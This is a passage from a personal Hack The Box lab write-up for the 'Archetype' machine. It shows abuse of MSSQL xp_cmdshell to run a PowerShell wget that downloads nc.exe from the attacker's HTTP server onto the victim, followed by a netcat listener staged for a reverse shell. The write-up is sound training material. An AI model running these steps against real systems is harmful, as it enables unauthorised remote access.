 We can stabilize the [Shell](../../../../3%20-%20Tags/Hacking%20Concepts/Shell.md), read it about here :

https://pentestwiki.org/academy/how-to-get-a-xp_cmdshell-reverse-shell/

We'll do `xp_cmdshell with nc`

First we locate `nc.exe` on our machine and copy that :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ locate nc.exe          
/home/mdn0x/THM/CHALLENGES/Easy/Cyberlens/web-server/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .    
```

Now we host a simple [Python](../../../../3%20-%20Tags/Programming%20Languages/Python.md) http web-server :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Now we have to download it to our victim using these command :

```bash
xp_cmdshell "powershell.exe wget http://[Your_tun0_IP]:PORT/nc.exe -OutFile c:\\Users\Public\\nc.exe"
```

In my case :

```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "powershell.exe wget http://10.10.14.231:8080/nc.exe -OutFile c:\\Users\Public\\nc.exe"
output   
------   
NULL     

```

And we see the hit on the server :

```bash
10.129.52.2 - - [01/Aug/2025 21:21:38] "GET /nc.exe HTTP/1.1" 200 -
```

Now we can open a [Netcat](../../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```
